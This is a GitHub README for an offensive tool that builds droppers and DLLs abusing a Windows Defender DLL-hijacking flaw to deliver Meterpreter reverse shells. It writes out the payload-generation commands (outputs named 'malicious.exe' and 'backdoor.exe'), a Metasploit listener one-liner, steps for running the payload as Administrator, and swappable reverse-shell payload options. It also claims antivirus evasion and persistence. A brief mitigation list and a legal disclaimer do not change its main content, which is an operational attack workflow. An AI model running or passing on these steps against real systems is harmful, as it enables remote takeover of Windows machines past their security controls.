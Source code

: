 #  DefenderDropper

**Advanced DLL Hijacking Payload Generator Using Windows Defender Vulnerabilities**

![Banner](assets/banner.jpg)
[![Python](https://img.shields.io/badge/Python-3.6%2B-blue)](https://python.org)
[![Metasploit](https://img.shields.io/badge/Metasploit-Compatible-red)](https://metasploit.com)
[![License](https://img.shields.io/badge/License-MIT-green)](LICENSE)

##  Overview

DefenderDropper is an advanced payload generation tool that leverages the DLL hijacking vulnerability in Windows Defender, originally discovered by [TwoSevenOneT](https://github.com/TwoSevenOneT/DefenderWrite). This tool automates the creation of sophisticated payloads that bypass security controls by hijacking legitimate Windows Defender processes.

>  **Inspired by**: [TwoSevenOneT/DefenderWrite](https://github.com/TwoSevenOneT/DefenderWrite)

##  Features

- **Windows Defender Exploitation**: Leverages DLL hijacking in Windows Defender
- **Automated Payload Generation**: Creates ready-to-use droppers and DLLs
- **Metasploit Integration**: Seamless integration with Meterpreter payloads
- **Static Compilation**: No external dependencies required
- **Stealth Execution**: Runs through legitimate system processes
- **Multiple Payload Support**: Various reverse shell and Meterpreter options

##  Quick Start

### Prerequisites

```bash
# Install dependencies on Debian/Kali
sudo apt update
sudo apt install python3 metasploit-framework mingw-w64 -y
```
# Installation
```bash
git clone https://github.com/HackScaleTeam/DefenderDropper.git
cd DefenderDropper
```

# Generate payload
```
python3 defenderdropper.py 10.0.2.147 4443 -o malicious.exe
```
# Start Metasploit listener
```
msfconsole -q -x 'use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter_reverse_tcp; set LHOST 10.0.2.147; set LPORT 4443; exploit'
```

# DEPLOYMENT STEPS:

1. Download DefenderWrite.exe if not installed from: https://github.com/TwoSevenOneT/DefenderWrite
2. On Windows VM, place these 3 files in SAME directory:
   - {exe_name}
   - {dll_name}
   - DefenderWrite.exe

3. Start listener: ```msfconsole -q -x 'use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter_reverse_tcp; set LHOST {args.LHOST}; set LPORT {args.LPORT}; exploit'```
4. Run {exe_name} as Administrator on Windows VM
   

# Demo
![Demo](assets/demo.gif)

# How It Works
Technical Overview
DLL Hijacking: Exploits Windows Defender's vulnerable update process

Process Injection: Injects shellcode into legitimate system processes

Persistence: Leverages trusted Windows components for execution

Evasion: Bypasses common security controls and antivirus solutions

# Attack Flow

![Banner](assets/digram.png)


# File Structure
```
DefenderDropper/
├── defenderdropper.py    # Main payload generator
├── payload.exe           # Generated dropper
├── payload.dll           # Shellcode DLL
├── DefenderWrite.exe     # Core exploit tool
├── README.md
└── LICENSE
```
# Usage Examples
Basic Meterpreter Payload
```bash
python3 defenderdropper.py 192.168.1.100 4444 -o backdoor.exe
```


# Advanced Features
Custom Payloads

You can modify the generate_shellcode() function to use different Metasploit payloads, on defenderdropper.py search for windows/x64/meterpreter_reverse_tcp and replace it with other payloads:

```
"-p", "windows/x64/shell_reverse_tcp",  # Simple reverse shell
"-p", "windows/meterpreter/reverse_https",  # HTTPS payload
"-p", "windows/x64/meterpreter/reverse_tcp",  # Standard Meterpreter
```

# Defense & Mitigation
Detection
Monitor for unusual msiexec.exe child processes

Watch for DLL files in Windows Defender directory

Analyze process hollowing techniques

# Prevention
Keep Windows Defender updated

Implement application whitelisting

Use advanced endpoint protection

Regular security audits

# Legal Disclaimer
This tool is intended for:

 Security research

 Penetration testing with proper authorization

 Educational purposes

 Red team exercises

 Illegal use of this tool is strictly prohibited. The developers are not responsible for any misuse or damage caused by this tool. Always ensure you have explicit permission before testing any systems.

# Contributing
We welcome contributions from the security community! Feel free to:

Fork the repository

Create feature branches

Submit pull requests

Report issues and suggestions

# Special Thanks
TwoSevenOneT for the original DefenderWrite research

The cybersecurity community for continuous improvement

# License
This project is licensed under the MIT License - see the [LICENSE](https://github.com/HackScaleTeam/DefenderDropper/blob/main/LICENSE). file for details.

 Security is a shared responsibility. Use this tool wisely and ethically.

Built with ❤️ for the cybersecurity community. Inspired by groundbreaking research from TwoSevenOneT.
